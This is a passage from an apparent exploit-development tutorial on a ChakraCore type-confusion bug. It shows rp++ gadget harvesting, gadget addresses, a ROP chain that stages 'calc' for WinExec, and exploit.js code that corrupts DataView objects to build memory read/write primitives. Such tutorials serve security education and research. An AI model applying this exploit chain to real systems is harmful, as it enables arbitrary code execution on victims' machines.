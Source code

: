 Let's use the following `rp++` command: `rp-win-x64.exe -f C:\PATH\TO\ChakraCore\Build\VcBuild\x64_debug\ChakraCore.dll -r > C:\PATH\WHERE\YOU\WANT\TO\OUTPUT\gadgets.txt`:

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion93.png" alt="">

ChakraCore is a very large code base, so `gadgets.txt` will be decently big. This is also why the `rp++` command takes a while to parse `chakracore.dll`. Taking a look at `gadgets.txt`, we can see our ROP gadgets.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion94.png" alt="">

Moving on, let's take a look at the prototype of `WinExec`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion95.png" alt="">

As we can see above, `WinExec` takes two parameters. Because of the `__fastcall` calling convention, the first parameter needs to be stored in RCX and the second parameter needs to be in RDX.

Our first parameter, `lpCmdLine`, needs to be a string which contains the contents of `calc`. At a deeper level, we need to find a memory address and use an arbitrary write primitive to store the contents there. In other works, `lpCmdLine` needs to be a _pointer_ to the string `calc`.

Looking at our `gadgets.txt` file, let's look for some ROP gadgets to help us achieve this. Within `gadgets.txt`, we find three useful ROP gadgets.

```
0x18003e876: pop rax ; ret ; \x26\x58\xc3 (1 found)
0x18003e6c6: pop rcx ; ret ; \x26\x59\xc3 (1 found)
0x1800d7ff7: mov qword [rcx], rax ; ret ; \x48\x89\x01\xc3 (1 found)
```

Here is how this will look in terms of our ROP chain:

```
pop rax ; ret
<0x636c6163> (calc in hex is placed into RAX)

pop rcx ; ret
<pointer to store calc> (pointer is placed into RCX)

mov qword [rcx], rax ; ret (fill pointer with calc)
```

Where we have currently overwritten our return address with a value of `0x4141414141414141`, we will place our first ROP gadget of `pop rax ; ret` there to begin our ROP chain. We will then write the rest of our gadgets down the rest of the stack, where our ROP payload will be executed.

Our previous three ROP gadgets will place the string `calc` into RAX, the pointer where we want to write this string into RCX, and then a gadget used to actually update the contents of this pointer with the string.

Let's update our `exploit.js` script with these ROP gadgets (note that `rp++` can't compensate for ASLR, and essentially computes the offset from the base of `chakracore.dll`. For example, the `pop rax` gadget is shown to be at `0x18003e876`. What this means is that we can actually find this gadget at `chakracore_base + 0x3e876`.)

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
```